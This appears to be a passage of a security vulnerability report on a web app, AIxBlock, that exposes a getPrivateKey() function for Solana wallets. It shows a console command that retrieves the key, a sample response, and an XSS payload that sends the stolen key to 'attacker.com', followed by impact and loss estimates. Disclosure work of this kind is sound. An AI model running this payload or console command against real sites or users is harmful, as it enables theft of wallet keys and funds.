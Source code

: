 #### Step 1: Access Private Key via Console
```javascript
// Execute in browser console while on AIxBlock
window.solanaRPCInstance.getPrivateKey()
```

#### Step 2: Actual Compromised Response
```json
{
  "success": true,
  "privateKey": "5J7WzHxCcE8V9vXqL2mP4tR6nY8sK1wN3aQ7bF9cD2eG4hJ6k",
  "publicKey": "8xR2mN4pL6vQ3wK9sB7fT5nY1cE8hG2aJ4dF6kP9rX3v",
  "walletAddress": "DYw8jCTfwHQ7cKm5xR3nL9pV2sF6tN4aE8bG1hJ7kM3q"
}
```

#### Step 3: XSS Attack Vector
```html
<!-- Malicious website -->
<script>
if (window.opener && window.opener.solanaRPCInstance) {
  window.opener.solanaRPCInstance.getPrivateKey()
    .then(key => {
      // Send to attacker
      fetch('https://attacker.com/steal', {
        method: 'POST',
        body: JSON.stringify({privateKey: key})
      });
    });
}
</script>
```

---

## Impact Assessment

### Direct Impact
- **Complete wallet compromise** - Attacker gains full control
- **Fund theft** - All user funds can be stolen
- **No authentication required** - Simple console command
- **Affects all users** - Every connected wallet

### Real-World Exploitation
1. **XSS Attack**: Malicious website steals keys from logged-in users
2. **Browser Extension**: Malicious extension harvests keys
3. **Man-in-the-Middle**: Network interception of keys
4. **Social Engineering**: Trick users into running console commands

### Financial Impact
- **Conservative**: $500K (1,000 users × $500 average)
- **Realistic**: $10M (5,000 users × $2,000 average)
- **Worst Case**: $150M (15,000 users × $10,000 average)
